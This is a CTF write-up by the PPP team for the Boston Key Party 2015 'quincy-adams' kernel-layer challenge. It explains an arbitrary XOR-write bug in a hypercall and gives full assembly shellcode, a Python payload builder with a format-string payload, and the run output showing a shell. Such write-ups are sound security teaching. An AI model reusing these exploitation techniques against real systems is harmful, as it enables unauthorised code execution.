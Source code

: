 ```yaml
---
title: '[bkpCTF-2015] quincy-adams (kspace) write-up'
author: PPP
layout: post
categories:
  - CTF
  - Write-Ups
date: 2015-03-07 13:37:01
---
```

This is a write-up for **quincy-adams** challenge, which is the second part of 3-chained pwnable challenge from <a href="https://ctftime.org/event/163" target="_blank">Boston Key Party CTF</a> last weekend. You can read about the other parts here: <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1224" target="_blank">quincy-center</a>, <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1234" target="_blank">braintree</a>. You can also read from the <a href="https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-adams-kspace-write-up/" target="_blank">origial post</a>.

The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It&#8217;s pretty bad though, sometimes the commands work, sometimes they don&#8217;t&#8230;  
> Exploit it. (kspace flag) 54.165.91.92 8899

The goal is to get &#8220;kspace&#8221; flag by exploiting the kernel space process.

Before we dive in, let's look at what is really going on.

We can think of each process (tz, kspace, uspace) as a separate privilege ring, as their name suggest.

  * **tz** (TrustZone?) &#8211; a &#8220;hypervisor&#8221; layer that implements the &#8220;hypercalls&#8221; (we haven&#8217;t really reversed this too much).
  * **kspace** &#8211; a kernel layer that implements the &#8220;syscalls&#8221;; it maintains the files array and performs the actual tasks such as listing files, removing files, sleeping, and cat&#8217;ing (open & read).
  * **uspace** &#8211; a user layer that implements the interface that the user interacts with; it parses the commands and calls the appropriate &#8220;syscalls&#8221;.

We would start from the **uspace** to get an arbitrary code execution on **uspace** process (as we did in previous write-up), then exploit the **kspace** to allow us to perform an attack against **tz**. Shared memory is arranged by **tz**, such that each layer will get its own memory &#8220;space&#8221; to pass the arguments to {sys, hyper}calls.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_0.png" lightbox="quincy-adams" title="kspace syscall_handler (sub_401180)" %}

We can see that the syscall numbers, which is stored on **user_space[0]**, match with what we saw on **uspace**.

  * **do_ls** loops through the **file_array** list and prints out the name of the file.
  * **do_rm** finds the file in **file_array** with a given filename, and deletes it.
  * **do_create** adds a file into **file_array** up to 16 files. It looks for the spot/bin in the array by checking if the filename is null.  
    This also initializes the file structure:
      * **open_file**, **read_file**, and **delete_file** are the function pointers.  
        * Note that **syscall 95** and **99** are **sleep** and **exit**, respectively, which are not that interesting :p
        * **do_read** finds the file in **file_array** with a given filename, and if the file is &#8220;open&#8221;, its content is copied to the output buffer (2nd argument).
        * **do_open** finds the file in **file_array** with a given filename, and changes its open state. 
            * Only up to 9 files can be open simultaneously.
  {% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_1.png" lightbox="quincy-adams" title="file struct" %}

There is a bug with file creation and deletion, where the number of files in the list gets incremented when creating a file, but it does not get decremented when being deleted. Thus, we can only create up to 16 files and we can&#8217;t create any more file even if we delete some. This didn&#8217;t really affect the exploitation, however :)

If you followed carefully, you&#8217;d have noticed that we didn&#8217;t go over the mysterious **syscall 92** (sub_402380).

This operation, unlike other ones, does not process the user input/arguments here. Instead, it forwards these arguments to **tz** via the &#8220;hypercall&#8221;.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_2.png" lightbox="quincy-adams" title="syscall 92 (kspace)" %}

To be more precise, the 3 arguments are stored starting at **kernel_space + 48**, and the hypercall takes 3 arguments of the **hypercall number (92)**, ****, and the **pointer to the arguments (kernel_space + 48)**.

So what does this hypercall do? Let&#8217;s take a look at **tz** binary now.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="quincy-adams" title="hypercall handler (tz)" %}

As we can see above, **sub_401560** is the hypercall 92 handler.  
It doesn&#8217;t really do anything too fancy. The function performs a very simple &#8220;encryption&#8221; of data.


{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_4.png" lightbox="quincy-adams" title="hypercall 92 handler" %}

It basically **xor**'s the bytes at **src** with the **key** &#8220;charlestown isn&#8217;t that skeytchy.&#8221; and stores the result to **dest**.

There is no restriction on the memory address for **dest** (other than checking if it&#8217;s 0x100000000), which allows us to do <span style="text-decoration: underline;">arbitrary (xor) write</span>. By preparing the **src** buffer with already xor&#8217;d values, we can write any value we want to any memory location.

So, we can use this capability(?) to write useful data structure (such as a function pointer) to gain arbitrary code execution!

Just like **uspace**, **kspace** has NX disabled, so we can put our shellcode somewhere and jump to it.

&nbsp;

The attack plan is as follows:

  1. Create a file, with the content being the shellcode we want to run as kernel.
  2. Overwrite a function pointer (open_file) for the first file (which is the one that we just created in step 1) with the pointer to our shellcode. 
      * The **file_array** is located at kernel_space + 0x3E800 == **0x90003e800**.
      * According to our **struc_files** struct, file_array **+ 0x8** points to the **files** array.
      * Thus, the first file structure will be located at **0x90003e808** and according to our **struc_file**, its content is located at the offset **+0x9**.
      * The first file&#8217;s content == **shellcode** == 0x90003e800 + 0x8 + 0x9 == **0x90003e811**.
      * The first file&#8217;s **open_file** function pointer is at **+0x118** from the file structure, which makes its location **0x90003e920**.
  3. Invoke a syscall #93, which opens a file. 
      * At this point, we will tell it to open our file which has corrupted **open_file** function pointer &#8212; thus, calling into our shellcode.

{% highlight asm linenos %}
  [BITS 64]
  section .text
  global _start
  _start:
  
  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax
  
  ; syscall 92 (encrypt)
  push qword [rel data]       ; 0x90003e811 (xor'd)
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 92         ; syscall #92
  mov qword [rax + 8], rsp    ; src (ptr to data)
  mov rcx, [rel dst]          ;
  mov qword [rax + 16], rcx   ; dst (0x90003e920)
  mov qword [rax + 24], 0x8   ; len
  
  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax
  
  ; sleep(1)
  mov rdi, 1
  mov rax, 0x400C30
  call rax
  
  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax
  
  ; syscall 93 (open)
  push qword [rel data]       ; now has 0x90003e811
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 93         ; syscall #93
  lea rcx, [rax + 16]         ; (using user_space + 16 as scratch)
  mov qword [rax + 8], rcx    ; filename
  mov rcx, [rel lol]
  mov qword [rax + 16], rcx   ; filename &lt;- &("lol")
  
  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax
  
  data:
  dq 0x7473656572628072   ; 0x90003e811 ^ 0x7473656c72616863 (key)
  dst:
  dq 0x90003e920
  lol:
  db 'lol',0
{% endhighlight %}

<br />

Note that since we are using syscal #92 (encrypt) to perform an arbitrary write to memory, we have to &#8220;encrypt&#8221; the value we want to write beforehand such that it will get &#8220;decrypted&#8221; when it writes. The filename we used is &#8220;lol&#8221;.

<p class="filename">pwn_kspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('&lt;Q', v)

def u(v):
    return struct.unpack('&lt;Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

Our exploit code looks fairly similar, but we now create a file called &#8216;lol&#8217; first with the shellcode. (The shellcode is the same as what we used for uspace.)

Then, we trigger the bug with our stage1 code.

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_kspace.py
$ (cat ../kspace/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
kspace
{% endhighlight %}
<br />

So far, we have triggered a **uspace** bug to call a syscall (92) in **kspace**, which does a hypercall (92) in **tz**, which allowed us to perform an arbitrary memory write in **kspace **memory.

Amusingly, we will be using the same primitive to get a shell under **tz** context in the next series.

&nbsp;

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]